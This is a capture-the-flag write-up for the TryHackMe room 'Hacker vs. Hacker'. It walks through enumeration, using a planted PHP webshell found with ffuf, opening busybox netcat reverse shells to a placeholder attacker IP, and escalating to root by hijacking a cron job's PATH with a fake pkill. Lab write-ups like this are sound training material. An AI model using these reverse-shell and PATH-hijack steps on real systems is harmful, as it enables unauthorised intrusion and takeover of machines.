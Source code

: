 ```yaml
---
title: "Hacker vs. Hacker"
date: 2025-02-13
image: /assets/img/tryhackme/Hackervshacker/Hackervshacker_image.jpg
description: Writeup of the TryHackMe-CTF Hacker vs. Hacker
categories: [Tryhackme, Easy]
tags: [linux, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Hacker vs. Hacker</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Someone has compromised this server already! Can you get in and evade their countermeasures?</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/hackervshacker">https://tryhackme.com/room/hackervshacker</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Hacker vs. Hacker.

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.103.67
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 09:27 EST
  Nmap scan report for 10.10.103.67
  Host is up (0.039s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

  Nmap done: 1 IP address (1 host up) scanned in 22.96 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80 10.10.103.67
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 09:28 EST
  Nmap scan report for 10.10.103.67
  Host is up (0.039s latency).

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 9f:a6:01:53:92:3a:1d:ba:d7:18:18:5c:0d:8e:92:2c (RSA)
  |   256 4b:60:dc:fb:92:a8:6f:fc:74:53:64:c1:8c:bd:de:7c (ECDSA)
  |_  256 83:d4:9c:d0:90:36:ce:83:f7:c7:53:30:28:df:c3:d5 (ED25519)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  |_http-title: RecruitSec: Industry Leading Infosec Recruitment
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.18 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

While manually analyzing the website, I found a comment in the source code:
```html
<!-- im no security expert - thats what we have a stable of nerds for - but isn't /cvs on the public website a privacy risk? -->
```

The website also provided an upload functionality for CV's as well. Which means uploaded CV's will be stored in the `/cvs` subdirectory. I tried to upload valid files, a PHP webshell, and other stuff, but I always received the following message:
```text
Hacked! If you dont want me to upload my shell, do better at filtering!
```
quick check of the source code revealed some interesting details:
```html
<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}
-->
```

With this in mind I tried a pdf file, but got the same error. The attacker seems to have disabled the upload function but already used it for initial access. The code only checks for one occurrence of `.pdf` so the name of the shell could be like `something.pdf.php`:

```bash
$ ffuf -u http://10.10.103.67/cvs/FUZZ.pdf.php -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt 

          /'___\  /'___\           /'___\       
         /\ \__/ /\ \__/  __  __  /\ \__/       
         \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
          \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
           \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

         v2.1.0-dev
  ________________________________________________

   :: Method           : GET
   :: URL              : http://10.10.103.67/cvs/FUZZ.pdf.php
   :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt
   :: Follow redirects : false
   :: Calibration      : false
   :: Timeout          : 10
   :: Threads          : 40
   :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
  ________________________________________________

shell                   [Status: 200, Size: 18, Words: 1, Lines: 2, Duration: 44ms]
```

Fuff helped to find it real quick. That seems like a regular PHP webshell one-liner:

![Web Shell](/assets/img/tryhackme/Hackervshacker/thm_hackervshacker_1.jpg)

I used it to get a reverse shell using `busybox` 

```html
http://10.10.103.67/cvs/shell.pdf.php?cmd=busybox nc [attackerip] 9001 -e sh
```

While trying to stabilize the shell with Python, the word `nope` appeared, and my `PTY` was terminated. It appears that there is a mechanism in place to prevent stabilization or the initiation of `PTY` sessions. But I was able to collect the user flag anyway:

```bash
www-data@b2r:/var/www/html/cvs$ nope
cd /home
ls
lachlan
cd lachlan
ls
bin
user.txt
cat user.txt 
thm{[removed]}
```

## Privilege Escalation lachlan

From this point, I attempted to escalate privileges to the user `lachlan`. I found something interesting in the `bash_history` of the user:

```bash
cat .bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\n[removed]\n[removed]" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

The user changed their password in an insecure manner. From here ssh isn't possible because the shell gets closed again instantly with a `nope`. After researching the `ssh` command, I discovered that `ssh` does not create a PTY session when using the `-T` flag.

## Privilege Escalation root

While searching for a way to gain root access, I found a cron job file named `persistence`:

```bash
cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

The path for the execution is `/home/lachlan/bin` which is under control. Since the `pkill` command is not referenced by its full path, we can exploit this by creating our own executable:

```bash
pwd
	/home/lachlan/bin
echo "busybox nc [attackerip] 9002 -e sh" > pkill
chmod 777 pkill
```

I then started a `netcat` listener and waited for the incoming connection:

```bash
$ nc -lnvp 9002
listening on [any] 9002 ...
connect to [attackerip] from (UNKNOWN) [10.10.103.67] 37212
whoami
root
cat /root/root.txt
thm{[removed]}
```

solved! :)
